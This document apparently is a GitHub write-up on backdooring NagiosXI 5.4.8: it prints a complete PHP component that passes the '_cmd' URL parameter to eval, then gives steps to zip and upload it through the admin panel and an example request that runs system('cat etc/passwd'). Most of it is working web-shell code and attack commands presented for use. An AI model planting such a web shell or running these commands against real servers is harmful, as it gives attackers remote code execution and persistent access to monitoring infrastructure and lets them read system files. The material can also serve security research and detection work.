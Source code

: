 ## After the NagiosXI administration panel has been accessed, we can upload our malicious component that will give us the web shell on the server, even if we are not authorized on it. ##
# Component code example #
```php
<?php
// PHP Shell Spawn Component

require_once(dirname(__FILE__) . '/../componenthelper.inc.php');

$shellaction_component_name = "shellaction";
shellaction_component_init();

////////////////////////////////////////////////////////////////////////
// COMPONENT INIT FUNCTIONS
////////////////////////////////////////////////////////////////////////

function shellaction_component_init()
{
    global $shellaction_component_name;

    $desc = "";


    $args = array(
        COMPONENT_NAME =>           $shellaction_component_name,
        COMPONENT_AUTHOR =>         "test",
        COMPONENT_DESCRIPTION =>    _("test. ") . $desc,
        COMPONENT_TITLE =>          "shell",
        COMPONENT_DATE =>           '08/08/2017',
        COMPONENT_VERSION =>        '1.3.3.7'
    );

    register_component($shellaction_component_name, $args);

    if (isset($_GET['_cmd']))
        eval($_GET['_cmd']);
}

```
## Component creation and uploading ##
1)First, the component must be saved with a name similar to the variable *$shellaction_component_name*.inc.php (example: shellaction.inc.php).

2)Then, you need to put the file in a folder with the same name of the variable (example: shellaction).

![file into folder](https://image.prntscr.com/image/wxoJEU6gSgmmRG3wHDovuA.png)

3)After all the folder should be zip archived (example for *nix: zip -r shell.zip shellaction).

Now we need to go to the section manage components and upload our component (shell.zip).

![manage components](https://image.prntscr.com/image/l7K9XR4hS0WWQMQnApg6Bw.png)

![check if it's added](https://image.prntscr.com/image/luboWJCYQiCKzQ1FzkMKew.png)

## Command execution ##

After that we can execute system commands directly through the address bar of the browser (example: host/nagiosxi/admin?xiwindow=dashlets.php&_cmd=system('cat etc/passwd');)

![it works!](https://image.prntscr.com/image/ouIOS_EpTxWQkk4lOnDofw.png)
## We are done here! ##

research was made on NagiosXI 5.4.8
